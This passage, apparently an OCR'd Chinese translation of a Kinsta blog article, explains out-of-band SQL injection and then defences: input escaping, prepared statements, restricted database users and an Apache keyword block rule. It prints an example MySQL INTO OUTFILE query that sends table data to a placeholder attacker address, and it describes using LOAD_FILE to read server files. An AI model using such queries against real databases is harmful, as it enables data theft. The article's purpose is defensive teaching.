 通常，这些技术包括将数据库中的数据发送到攻击者选择的恶意位置。这个过程也高度依赖于数据库管理系统的能力。

带外 SQL 注入攻击使用 DBMS 的外部文件处理功能。在 MySQL 中，LOAD_FILE()和 INTO OUTFILE 函数可用于请求 MySQL 将数据传输到外部源。以下是攻击者可能如何使用 OUTFILE 将查询结果发送到外部源:

```
select * from post_table
into OUTFILE '\\\\MALICIOUS_IP_ADDRESS\location' 
```

类似地，LOAD_FILE()函数可用于从服务器读取文件并显示其内容。可以使用 LOAD_FILE()和 OUTFILE 的组合来读取服务器上的文件内容，然后将其传输到不同的位置。

## 如何防止 SQL 注入

到目前为止，我们已经研究了 web 应用程序中可能导致 SQL 注入攻击的漏洞。攻击者可以利用 SQL 注入漏洞读取、修改甚至删除数据库的内容。

此外，它还可以让人在服务器内的任何位置读取文件，并将内容传输到其他地方。在本节中，我们将探讨各种技术来保护您的 web 应用程序和网站免受 SQL 注入攻击。

### 转义用户输入

一般来说，判断一个用户字符串是否是恶意的是一件困难的事情。因此，最好的方法是对用户输入中的特殊字符进行转义。

这个过程使你免受 SQL 注入的攻击。在使用`mysql_escape_string() function`在 [PHP](https://kinsta.com/blog/is-php-dead/) 中构建查询之前，您可以转义一个字符串。还可以使用`mysqli_real_escape_string()`函数对 MySQL 中的字符串进行转义。

将输出显示为 HTML 时，您还需要转换字符串，以确保特殊字符不会干扰 HTML 标记。您可以使用函数`htmlspecialchars()`转换 PHP 中的特殊字符。

### 使用准备好的语句

或者，您可以使用准备好的语句来避免 SQL 注入。预准备语句是 SQL 查询的模板，您可以在稍后阶段指定参数来执行它。下面是一个用 PHP 和 MySQLi 编写的语句的例子。

```
$query = $mysql_connection->prepare("select * from user_table where username = ? and password = ?");
$query->execute(array($username, $password));
```

### 防止 SQL 攻击的其他安全检查

减轻该漏洞的下一步是将对数据库的访问限制在必要的范围内。

与宕机和 WordPress 问题做斗争？Kinsta 是一款考虑到性能和安全性的托管解决方案！[查看我们的计划](https://kinsta.com/plans/?in-article-cta)

例如，使用只能访问相关数据库的特定用户将 web 应用程序连接到 DBMS。

限制数据库用户对服务器所有其他位置的访问。您可能还希望通过 web 服务器阻止 URL 中的某些 SQL 关键字。如果您使用 [Apache](https://kinsta.com/blog/nginx-vs-apache/) 作为 web 服务器，您可以在您的[中使用下面几行代码。htaccess 文件](https://kinsta.com/knowledgebase/wordpress-htaccess-file/)向潜在的攻击者显示 403 禁止错误。

在使用这种技术之前应该小心，因为如果 URL 包含这些关键字，Apache 会向读者显示一个错误。

```
RewriteCond %{QUERY_STRING} [^a-z](declare¦char¦set¦cast¦convert¦delete¦drop¦exec¦insert¦meta¦script¦select¦truncate¦update)[^a-z] [NC]
RewriteRule (.*) - [F]
```

<aside role="note" class="wp-block-kinsta-notice is-style-info">
